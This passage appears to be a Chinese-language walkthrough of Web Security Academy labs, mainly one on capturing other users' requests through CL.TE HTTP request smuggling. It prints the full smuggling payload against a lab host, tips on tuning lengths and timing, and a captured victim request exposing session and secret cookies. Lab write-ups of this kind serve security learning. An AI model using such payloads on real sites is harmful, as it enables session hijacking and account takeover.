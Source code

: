 接下来就是删除carlos。

用上面的那个去访问`/admin/delete?username=carlos`就行。

### 9. Exploiting HTTP request smuggling to capture other users' requests

> 漏洞：CL.TE

payload:

```http
POST /post/comment HTTP/1.1
Host: ac891f051f9cabbd80980af40037004a.web-security-academy.net
Content-Length: 310
Content-Type: application/x-www-form-urlencoded
Cookie: session=5C7vijjjuUPQlVDaydpmAVtUfSgRPjMh
Transfer-Encoding: chunked

0


POST /post/comment HTTP/1.1
Host: ac891f051f9cabbd80980af40037004a.web-security-academy.net
Content-Length: 640
Content-Type: application/x-www-form-urlencoded
Cookie: session=5C7vijjjuUPQlVDaydpmAVtUfSgRPjMh

csrf=WasSfCz2sRoMbBg5DKFZoQnw4SEnqsZA&postId=1&name=a&email=a%40a&website=&comment=


```

这个间隔要长一点（亿点点），特别是还要去试字数，需要多试几（亿）次。

我做了两个小时之后，发现除了用时间去等待以外，你每发三个POST请求，系统就会加一个受害者的请求，也就是说...我白等这么久了。

得到了cookie。

```http
GET / HTTP/1.1
Host: ac891f051f9cabbd80980af40037004a.web-security-academy.net
Connection: keep-alive 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1 
User-Agent: Chrome/153485 
Accept: text/html,application/xhtmlxml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US
Cookie: victim-fingerprint=GSZWTj4SnRVusMXXuoy7JGnlycfWzZhK; secret=dCdol6xnT5Fue3BlC8F0BTZiKMK9DEFo; session=FspfqxF6kxvLM0NARpi85CVimSqQdJYP


```
